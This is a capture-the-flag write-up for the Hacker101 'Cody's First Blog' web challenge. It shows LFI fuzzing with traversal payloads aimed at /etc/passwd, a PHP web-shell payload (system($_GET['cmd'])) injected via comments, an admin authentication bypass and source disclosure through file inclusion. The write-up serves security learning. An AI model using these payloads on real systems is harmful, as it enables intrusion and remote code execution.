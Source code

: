 # Cody's First Blog
**Difficulty:** Moderate  
**Category:** Web  
**Flags:** 3/3

---

## 🧠 Thought Process
When I first accessed the website, I immediately started reconnaissance. I examined the content and checked the source code to understand the application structure. I noticed several potential attack vectors:

1. An admin login page referenced in the source code
2. A comment section for user input (potential injection point)
3. A mention of PHP `include()` function usage, suggesting possible Local File Inclusion (LFI)
4. The blog post mentioning that "PHP doesn't need a template language because it *is* a template language"

Multiple attack paths were available, so I decided to explore them systematically.

---

## 🔍 Step 1: Local File Inclusion (LFI) Discovery
I started by fuzzing for LFI vulnerabilities using `ffuf` with a wordlist from SecLists:

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-Jhaddix.txt -O lfi.txt
ffuf -u "https://c663cfaeb30f0d6e6437dbf942b65ab7.ctf.hacker101.com/?page=../../../../FUZZ%00" -w lfi.txt -fs 0
```

The fuzzing revealed multiple LFI paths, including:
- `../../apache/logs/access.log`
- `/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd`
- Various other system files

However, when I tried to exploit these paths, I encountered inclusion errors, indicating the files weren't being properly included for execution.

---

## 🚩 Step 2: First Flag - Log Poisoning via Comment Section
Instead of continuing with the LFI approach, I pivoted to the comment section. I realized I could potentially poison log files by injecting PHP code through user input.

I submitted the following PHP payload in the comment form:
```php
<?php system($_GET['cmd']); ?>
```

**Surprisingly, this immediately revealed the first flag!** The comment section was directly executing PHP code without proper sanitization.

![First Flag](FirstFlag.png)

---

## 🔐 Step 3: Second Flag - Admin Panel Access
Next, I investigated the admin login page that was referenced in the HTML source:
```html
<!--<a href="?page=admin.auth.inc">Admin login</a>-->
```

I tried accessing `?page=admin.auth.inc` but it seemed to require authentication. However, I had a hunch about the file structure. I tried removing the "auth" portion from the URL:

**Before:** `
?page=admin.auth.inc
`
<br>
![Admin Auth Required](AdminAuthInc.png)

**After:** `
?page=admin.inc
`
<br>
![Admin Panel Access](AdminAuth.png)

This bypassed the authentication entirely! The admin panel was accessible, and the second flag was displayed right there.

---

## 📝 Step 4: Third Flag - Source Code Disclosure
For the final flag, I needed to read the source code of the application. I went back to the comment section and tried various PHP payloads to read files:

```php
<?php echo readfile("index.php")?>
<?php echo ("index.php")?>
```

After submitting these comments, they appeared in the admin panel but weren't visible on the client side. I realized I needed to find a way to make the comments execute properly. The picture below is after i have approved the comments from the admin panel.

![Approved Comments](ApprovedComments.png)

Through research and experimentation, I discovered that by accessing:
```
/?page=http://localhost/index
```

This made the comments execute properly, and when I checked the source code of the resulting page, I could see the contents of `index.php` along with the third flag embedded in the source.

![Source Code Flag](SourceCodeFlag.png)

---

## 🏁 Captured Flags
- **Flag 1:** Found through direct PHP code execution in comments
- **Flag 2:** Discovered by bypassing admin authentication 
- **Flag 3:** Retrieved through source code disclosure via comment injection

---

## ✅ Summary
This challenge demonstrated multiple web vulnerabilities:

1. **Code Injection:** The comment system directly executed PHP code without sanitization
2. **Authentication Bypass:** Removing "auth" from the admin URL bypassed security
3. **Local File Inclusion:** Combined with code injection to read source files
4. **Improper Input Validation:** Multiple injection points throughout the application

The key lesson is that web applications using PHP's `include()` function with user input are extremely dangerous, especially when combined with insufficient input validation and authentication mechanisms.
